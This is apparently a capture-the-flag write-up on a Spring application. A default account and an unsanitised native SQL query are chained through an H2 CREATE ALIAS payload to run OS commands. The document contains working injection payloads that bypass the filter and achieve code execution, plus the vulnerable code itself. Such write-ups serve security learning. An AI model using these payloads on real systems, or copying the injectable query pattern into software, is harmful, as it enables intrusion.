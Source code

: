 # Pentest Notes

## Solutions
```sql
INSERT INTO users (id, username,password) VALUES (1, 'user', '123');
```
We can login using default user account
```java
    @PostMapping("/note")
    public ResponseEntity < ? > noteByName(@RequestParam String name, HttpSession httpSession) {
        if (httpSession.getAttribute("username") == null) {
            return ResponseEntity.status(HttpStatus.UNAUTHORIZED).body("unauthorized");
        }
        if (name.contains("$") || name.toLowerCase().contains("concat")) {
            return ResponseEntity.status(HttpStatus.FORBIDDEN).body("Bad character in name :)");
        }
        String query = String.format("Select * from notes where name ='%s' ", name);
        List < Object[] > resultList = entityManager.createNativeQuery(query).getResultList();
        List < Map < String, Object >> result = new ArrayList < > ();
        for (Object[] row: resultList) {
            Map < String, Object > rowMap = new HashMap < > ();
            rowMap.put("ID", row[0]);
            rowMap.put("Name", row[1]);
            rowMap.put("Note", row[2]);
            result.add(rowMap);
        }
        return ResponseEntity.ok(result);
    }
```
First glance at the note function, we can see that there is no restriction for name parameter. And after i put a ' OR 1=1; in the payload, it return all the notes. So that it is a SQLi, and we need somehow to chain this to RCE so that we can read the flag.
After searching around, i saw a interesting [writeup](https://medium.com/r3d-buck3t/chaining-h2-database-vulnerabilities-for-rce-9b535a9621a2).

So for short, H2 database allows us to create a function that execute Java code through ALIAS
```sql
CREATE ALIAS EXECVE AS $$ String execve(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\\\A"); return s.hasNext() ? s.next() : "";  }$$;
```
So here is our function but there are some conditions.
```java
        if (httpSession.getAttribute("username") == null) {
            return ResponseEntity.status(HttpStatus.UNAUTHORIZED).body("unauthorized");
        }
        if (name.contains("$") || name.toLowerCase().contains("concat")) {
            return ResponseEntity.status(HttpStatus.FORBIDDEN).body("Bad character in name :)");
        }
```
We cannot use `$` or the `CONCAT` function. Fortunately, we can bypass this restriction since the `CREATE ALIAS` expects a String, so we don't need to use `$`.
So out payload would be 
```sql
'CREATE ALIAS EXECVE AS 'String execve(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\\\A"); return s.hasNext() ? s.next() : "";  }';--
```
After injecting this function to the database,what we need now is just call out the function.
```sql
' UNION SELECT NULL,NULL,EXECVE('ls') AS note;--
```
We need to 2 first null so that it can match the collumns

![Executin](https://example.com/sql-injection-example.png)


